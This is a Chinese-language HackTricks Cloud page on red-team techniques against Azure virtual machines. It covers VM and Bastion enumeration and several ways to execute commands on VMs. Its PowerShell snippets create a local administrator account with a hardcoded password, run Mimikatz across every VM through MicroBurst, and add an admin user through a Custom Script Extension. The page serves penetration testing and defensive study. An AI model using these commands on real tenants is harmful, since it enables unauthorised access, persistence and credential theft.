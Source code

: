 # Az - 虚拟机 & 网络

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure虚拟机是Azure提供的几种[按需、可扩展的计算资源](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree)之一。通常，当您需要比其他选择提供的计算环境更多控制权时，您会选择虚拟机。本文提供了有关在创建虚拟机之前应考虑的事项、如何创建虚拟机以及如何管理虚拟机的信息。

## Azure网络信息

Azure网络包含**不同的实体和配置方式**。您可以在以下位置找到不同Azure网络实体的**简要描述**、**示例**和**枚举**命令：

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure堡垒机

**Azure堡垒机**提供了一个安全的、完全托管的RDP（远程桌面协议）和SSH（安全外壳）访问解决方案，通过Azure门户在SSL上进行。它集成在Azure虚拟网络中，允许使用私有IP的VM进行RDP和SSH连接，避免了需要公共IP的情况。这使其成为传统方法的更安全、更便捷的替代方案，传统方法涉及为VM访问分配公共IP和NSG规则配置。开发人员和IT人员可以通过他们的Web浏览器从Azure门户安全访问VM，简化了开发和测试环境的流程。

要列出订阅中的所有Azure堡垒主机，您可以使用以下命令：

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
## VM枚举
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **在虚拟机中运行命令**

### **在VM中进行AAD登录**

可以允许通过AzureAD进行身份验证的用户访问。例如，尝试访问**Linux VM**：`ssh username@azure-corp.com@1.1.1.1`（重要的是**使用在尝试登录时使用的azurecorp的电子邮件**），可能会出现错误：
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

只需**按照以下说明**前往 [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) 并输入代码，使用电子邮件和密码作为凭据，然后您就可以通过 SSH 连接（如果该用户具有足够的权限进行操作：`Virtual Machine Administrator Login` 或 `Virtual Machine User Login` 角色）。

### **运行命令**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **运行自定义脚本扩展**

Azure虚拟机（VM）扩展是提供在Azure VM上进行部署后配置和自动化任务的**小型应用程序**。例如，如果虚拟机需要软件安装、防病毒保护或在其中运行脚本的能力，您可以使用VM扩展。

因此，如果您有写入权限，您可以执行任意代码：
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC)是类似于Ansible的PowerShell工具，用于通过代码设置主机。DSC与Azure集成，允许上传特定配置文件。这些文件必须遵循严格的语法。值得注意的是，Azure中的DSC扩展可以执行来自符合特定格式标准的文件的命令，即使语法不符合DSC标准，如所示的图中所示。

这些命令的执行由Az PowerShell中的[**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0)函数实现。要求包括一个具有定义函数的**.PS1**文件，并且该文件必须被压缩成**.zip**文件。即使语法可能不符合DSC的要求，代码仍将执行。但是，扩展将标记执行状态为“失败”，由于状态被失败消息覆盖，因此不会显示命令的任何输出。

### VM Application Definitions

VM应用程序定义允许将经过版本化的应用程序重复部署到Azure VM。此资源支持在VM之间部署和更新应用程序。要设置此功能，需要执行几个步骤，涉及Az PowerShell中的**`New-AzGalleryApplication`**和**`New-AzGalleryApplicationVersion`**等命令。

通过此方法执行应用程序或命令涉及**“VMAppExtension”**，当将应用程序应用于VM时，此扩展会自动安装。该扩展从指定的URI检索文件，并将其命名为应用程序的名称，不带扩展名。为了正确执行文件，必须配置REST API调用中的“ManageActions”字段以使用适当的扩展名重命名文件。一旦完成此方法的设置，其结构将类似于提供的图中所示。

然而，此执行方法相对较慢，大约需要3-4分钟来执行一个应用程序或命令。与此过程相关的文件存储在特定目录中（`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\`用于应用程序复制，`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`用于执行状态）。

这两种技术提供了在Azure环境中执行命令和部署应用程序的独特方法，每种方法都有自己的一组要求、步骤和注意事项。

### Azure中的混合工作组（HWGs）

[**混合工作组（HWGs）**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker)是Azure中的一个功能，允许在配置在自动化帐户中的Runbook在指定HWG的Azure虚拟机（VM）上执行。此执行通过安装在VM上的扩展实现，该扩展将Runbook代码部署到VM上。此过程的一个重要方面是实际凭据不影响执行，因为代码以特权身份，具体为**SYSTEM**或root运行，如提供的图中所示。

对于使用Windows 10 VM的用户的一个关键细节是需要为Runbook指定PowerShell版本。应将其设置为以PowerShell版本5.1运行，而不是7.1。这一要求源于Windows 10 VM上默认未安装PowerShell 7.1，如果指定了版本7.1，则会导致脚本执行失败。

Azure的此功能提供了一种强大的方法，用于在混合环境中自动化和管理任务，允许在Azure VM上集中管理和执行任务。


## 参考资料

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF版HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 发现我们的独家[NFTs收藏品**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**上关注**我们。
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

